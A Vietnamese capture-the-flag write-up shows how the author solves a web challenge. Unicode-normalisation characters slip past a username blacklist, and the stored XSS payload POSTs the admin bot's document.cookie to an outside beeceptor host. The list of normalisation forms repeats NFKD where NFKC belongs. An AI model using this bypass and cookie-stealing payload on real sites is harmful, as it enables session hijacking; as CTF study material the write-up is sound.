Đây là thời gian mình bắt đầu tham gia các chương trình tìm kiếm bug bounty. Tuy nhiên kết quả mang lại chưa được khả quan 😭. Để xốc lại tinh thần mình quyết định lại chơi CTF. Hi vọng bounty đầu tiên của mình sẽ xuất hiện trong tương lai gần.

## Recon


_Trang chủ_

Trang chủ của Chainreaction không có gì đáng bận tâm, ngoại trừ việc ảnh không load được, nhưng hiện tại vẫn không biết lí do thôi bỏ qua. Có hai button đăng ký đăng nhập. 
Ở đây các form này không khai thác được SQLi. Quan sát một chút form đăng ký


_Trang đăng ký_

Username không được chứa các ký tự < và >. Vậy khả năng cao có thể bypass để khai thác lỗi XSS qua username. Cũng có một điều đặc biệt bên dưới form đăng nhập làm mình chú ý


_Trang đăng nhập_

vậy là có trang đăng nhập riêng cho deverloper, vào luôn xem có gì hay ho


_Trang đăng nhập cho developer_

Hiểu sương sương nghĩa là nếu bạn có tài khoản thì có thể vào đường dẫn /devchat, đặc biệt hơn nếu có tài khoản admin thì có thể vào /admin. Hiện tại đương nhiên mình không thể vào trang admin được rồi, 
ngó devchat xem có gì


_/devchat_

Vậy là có hẳn một trang public luôn đoạn chat nội bộ, đúng với mô tả của challenge 🤣🤣🤣

> Hệ thống được xây dựng bởi các sinh viên của trường đại học.
 
Đoạn chat có đề cập đến NFKD => NFKD normalised exploit. Tiếp theo tạo một tài khoản và đăng nhập, thì có thêm trang profile cho phép thay đổi thông tin cá nhân

 
_Trang thông tin tài khoản_

Ta thấy rằng username được hiển thị lên giao diện thông qua lời chào welcome, thử XSS ở đây xem thế nào.



Như vậy hệ thống sử dụng blacklist để kiểm tra thông tin username. Như đã đề cập ở trên, đoạn chat có nhắc đến cái gọi là NFKD, vậy chính xác NFKD là gì và khai thác thế nào mình sẽ trình bày ngắn gọn dưới đây.

## Unicode Normalization vulnerability 

Normalization (chuẩn hóa) là quá trình thay đổi độ dài biểu diễn nhị phân đối với một ký tự cụ thể. Có hai kiểu tương đương giữa các ký tự là _Canonical Equivalence_ và _Compatibility Equivalence_ (mình không biết nên đưa về tiếng việt thế nào)
- Các ký tự tương đương theo kiểu Canonical Equivalence sẽ có cùng biểu diễn khi in hoặc hiển thị.
- Trong khi đó Compatibility Equivalence là kiểu tương đương mềm dẻo hơn khi biểu diễn của hai ký tự tương đương theo kiểu này có thể khác nhau.

Có 4 thuật toán chuẩn hóa được định nghĩa theo chuẩn Unicode: NFC, NFD, NFKD và __NFKD__, mỗi loại áp dụng kỹ thuật chuẩn hóa Canonical và Compatibility theo cách khác nhau. Bạn có thể đọc thêm về các kỹ thuật khác nhau tại Unicode.org.

Chuẩn hóa Compatibility mềm dẻo hơn do đó có thể bị hacker khai thác để vược qua blacklist. Ví dụ ký tự '⑧' sau khi được chuẩn hóa theo kỹ thuật Compatibility sẽ thành ký tự '8', như vậy hacker có thể dùng ký tự này để vượt qua blacklist chứa '8'.

Để hiểu rõ hơn về Unicode Normalization cũng như cách khai thác, bạn có thể tham khảo [tài liệu sau](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability).

## Solve challenge
Như vậy đã hiểu sơ qua về các khai thác unicode normalization. Bắt tay vào exploit thôi, các ký tự đại diện mình sẽ cần để bypass blacklist sẽ là
- ＜(%ef%bc%9c) thay cho ký tự <
- ＞(%ef%bc%9e) thay cho ký tự >
- ⁱ (%e2%81%b1) thay cho ký tự i

Các ký tự tương đương bạn có thể tìm ở [tài liệu sau](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html).
Test thử script cơ bản, sử dụng beeceptor như một mockup server để validate. Trường mình sử dụng để XSS sẽ là username trong trang profile

```
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
</script>
```

Để bypass blacklist, mình sẽ thay thế các ký tự < > i bằng các ký tự tương đương ở trên (ký tự i để bypass chuỗi 'script'). Như vậy payload của mình sẽ là

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```
Kết quả gửi request



Vậy là đã tạo được một node script để chèn javascript, bên beeceptor cũng đã nhận được request



Oke, đến đây để mạo danh admin, cần phải có được cookie đăng nhập của admin. How? Đầu tiên cần quay lại một chút trang chát chít của hội dev. Chính ông admin đã tiết lộ như sau



Do tính năng của trang admin chưa được hoàn thành, admin sẽ sử dụng 1 cookie tĩnh để xác thực, browser của admin chắc chắn còn lưu cookie này. Thế làm thế nào để admin mở profile tài khoản của mình để kích hoạt XSS gửi cookie về cho beeceptor? Câu trả lời nằm ở tính năng report ở trang profile



Nghĩa là mình cứ ấn report là ông admin sẽ vào trang profile để check lỗi => XSS. Test nhanh kẻo nguội bằng payload sau

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var c = document.cookie;
  var xhr = new XMLHttpRequest();
  xhr.open("POST","https://hoangnd.free.beeceptor.com/exploit");
  xhr.send(c);
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```


_Kết quả gửi request_

Tiếp theo là ấn report và quan sát bên beeceptor



Vậy là đã lấy được cookie của admin, vào /admin lấy cờ thôi



